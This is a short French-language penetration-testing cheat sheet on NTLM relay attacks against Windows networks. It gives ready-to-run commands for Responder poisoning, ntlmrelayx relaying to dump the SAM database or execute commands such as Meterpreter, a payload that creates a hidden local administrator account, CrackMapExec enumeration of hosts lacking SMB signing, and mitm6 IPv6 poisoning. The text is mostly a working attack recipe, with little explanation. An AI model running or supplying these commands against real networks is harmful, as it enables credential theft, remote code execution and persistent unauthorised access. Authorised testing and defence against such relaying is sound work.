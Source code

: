# NTLM Relay

Prendre la dernière version de Responder ([https://github.com/lgandx/Responder](https://github.com/lgandx/Responder))

### Ecoute passive

```
sudo python3 responder -I eth0
```

Les _hashs_ NT utilisé dans la version 1 et 2 du protocole NTLM (a.k.a Net-NTLMv1-SSP et Net-NTLMv2-SSP) peuvent être relayés.

### Relayer

Pour pouvoir relayer, il faut que les services SMB et HTTP de Responder soit stoppés (fichier de configuration Responder.conf). Ceci permet le bon fonctionnement de `ntlmrelayx`.

_**Note :** les deux scripts doivent être exécutés dans le même contexte, pas dans 2 conteneurs Docker différents._

```
# Terminal 1 (dans le docker impacket)
Dumper la base SAM : ntlmrelayx -tf <TARGETS.txt>
Exécuter une commande : ntlmrelayx -tf <TARGETS.txt> -c <COMMANDE ou METERPRETER>

# Terminal 2
sudo python3 responder -I eth0 -d -w # Les hashs sont visibles dans Responder/logs/Responder-Session.log
```

#### TIPS

* `-smb2support` : Option qui permet de supporter le protocole SMBv2
* `-i` : Option pour exécuter des commandes de manière interactive
* `-c "net user user pass /add && net localgroup Administrators user /add"` : Ajoute un administrateur local

Le fichier `TARGETS.txt` contient les IP des machines dont la signature SMB n'est pas activée. Cette liste de machine peut être récupérée avec la commande suivante :&#x20;

```
cme smb <IP>/<MASK> --gen-relay-list <TARGETS.txt>
```

### IPv6

Prendre la dernière version de `mitm6` ([https://github.com/dirkjanm/mitm6](https://github.com/dirkjanm/mitm6)). Après l'installation, en cas d'erreur `matplotlib`, exécuter la commande suivante :&#x20;

```
sudo pip install --upgrade matplotlib
```

Pour relayer les commandes sont les suivantes :&#x20;

```
# Terminal 1 (dans le docker impacket)
ntlmrelayx.py -6 -tf <TARGETS.txt>

# Terminal 2 
sudo mitm6 -d <DOMAIN.LOCAL>
```
